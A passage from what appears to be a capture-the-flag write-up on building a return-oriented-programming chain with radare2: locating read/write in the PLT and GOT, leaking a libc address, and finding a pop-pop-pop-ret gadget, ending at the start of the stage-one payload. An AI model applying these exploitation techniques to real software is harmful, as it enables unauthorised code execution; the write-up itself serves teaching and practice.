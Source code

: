 We could also go the *Windows way*:
1. Leak libc address of mprotect(2)
2. Read our shellcode
3. Call mprotect on the previously-written shellcode
4. Return to our shellcode

I'll only detail the first method in this writeup,
but you can find PoC for all of them at the end
of this document.

# Building the chain

If you don't remember the offsets of read(1)/write(1) in PLT, here they are:

```
[0xf77db0d0]> afl~imp.read
0x0804832c  6  1  sym.imp.read
[0xf77db0d0]> afl~imp.write
0x0804830c  6  1  sym.imp.write
```

Now, we must get read's adress in GOT:
```
[0x08048340]> pdi 1 @ sym.imp.read
0x0804832c      ff251c960408  jmp dword [0x804961c]
[0x08048340]>
```

To leak a libc address we'll want to read from the GOT entry of a known libc
function. We can see that read is in the GOT at 0x804961c.
Write is done as such.
```
ssize_t write(int fildes, const void *buf, size_t nbyte);
```
So something like this is what we want.
```
write(1 /*stdout*/, 0x804961c /*read@got*/, 4 /*size to read*/);
```
But then, how do we clean up the stack to go to our next function which is to
write our command? We need to pop 3 items off of the stack, and set the return
address to read. So first, let's find how to pop off the stack.
r2 has some great rop gadget search tools, so we need to find gadgets that do
the following.
```
pop ?
pop ?
pop ?
ret
```
Where `?` can be any register, we don't really care. This cleans up the stack
and gets us to the next return address. We can use the `/R` command for finding
gadgets.
```
[0x08048440]> /R  pop,pop,pop,ret
```
r2 gives us back a bunch of example gadgets. I see one here which looks nice.
```
  0x080484b6           5e  pop esi
  0x080484b7           5f  pop edi
  0x080484b8           5d  pop ebp
  0x080484b9           c3  ret
```
I'll refer to this as "pppr" for poppoppopret.
So, stage 1 of our payload can look like this
```
STAGE 1
--frame_1--
[write@plt]
```